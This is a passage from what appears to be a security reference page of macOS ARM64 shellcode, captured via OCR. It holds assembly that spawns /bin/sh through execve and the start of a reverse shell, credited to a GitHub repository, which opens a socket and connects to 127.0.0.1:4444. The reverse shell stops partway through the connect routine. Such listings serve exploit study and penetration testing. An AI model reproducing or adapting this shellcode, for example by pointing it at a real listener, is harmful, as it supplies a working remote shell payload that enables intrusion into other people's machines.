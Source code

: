 ```armasm
    cmp  x10, x2
    bne  call_dup

call_execve:
    // execve("/bin/sh", 0, 0)
    mov  x1, #0x622F
    movk x1, #0x6E69, lsl #16
    movk x1, #0x732F, lsl #32
    movk x1, #0x68, lsl #48
    str  x1, [sp, #-8]
    mov	 x1, #8
    sub  x0, sp, x1
    mov  x1, xzr
    mov  x2, xzr
    mov  x16, #59
    svc  #0x1337
```

#### Reverse shell

From [https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/reverseshell.s), revshell to **127.0.0.1:4444**

```armasm
.section __TEXT,__text
.global _main
.align 2
_main:
call_socket:
    // s = socket(AF_INET = 2, SOCK_STREAM = 1, 0)
    mov  x16, #97
    lsr  x1, x16, #6
    lsl  x0, x1, #1
    mov  x2, xzr
    svc  #0x1337

    // save s
    mvn  x3, x0

call_connect:
    /*
     * connect(s, &sockaddr, 0x10)
     *
     * struct sockaddr_in {
     *     __uint8_t       sin_len;     // sizeof(struct sockaddr_in) = 0x10
     *     sa_family_t     sin_family;  // AF_INET = 2
     *     in_port_t       sin_port;    // 4444 = 0x115C
     *     struct  in_addr sin_addr;    // 127.0.0.1 (4 bytes)
     *     char            sin_zero[8]; // Don't care
     * };
     */
    mov  x1, #0x0210
    movk x1, #0x5C11, lsl #16
    movk x1, #0x007F, lsl #32
    movk x1, #0x0100, lsl #48
    str  x1, [sp, #-8]
    mov  x2, #8
    sub  x1, sp, x2
    mov  x2, #16
    mov  x16, #98
    svc  #0x1337

    lsr  x2, x2, #2
```